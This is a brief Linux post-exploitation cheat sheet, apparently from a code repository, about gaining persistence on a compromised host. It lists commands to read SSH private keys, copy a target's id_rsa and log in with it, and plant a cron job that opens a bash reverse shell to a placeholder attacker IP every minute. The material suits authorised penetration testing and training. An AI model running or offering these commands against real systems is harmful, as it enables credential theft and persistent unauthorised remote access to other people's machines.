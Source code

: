 # Linux Persistance

--------------------------------------------------------------------

```
$ ls -lah ~/.ssh/
$ cat ~/.ssh/id_rsa
$ cat ~/.ssh/authorized_keys
$ cat ~/.ssh/known_hosts
```

--------------------------------------------------------------------

## Download the 'id_rsa' file

```
download files via ssh

$ scp <USER>@<TARGET_IP>:~/.ssh/id_rsa .
$ chmod 400 id_rsa

$ ssh -i id_rsa <USER>@<TARGET_IP>
```

--------------------------------------------------------------------

## Cron Jobs

```
$ cat /etc/cron*

$ echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" > cron

$ crontab -i cron

$ crontab -l
```

--------------------------------------------------------------------
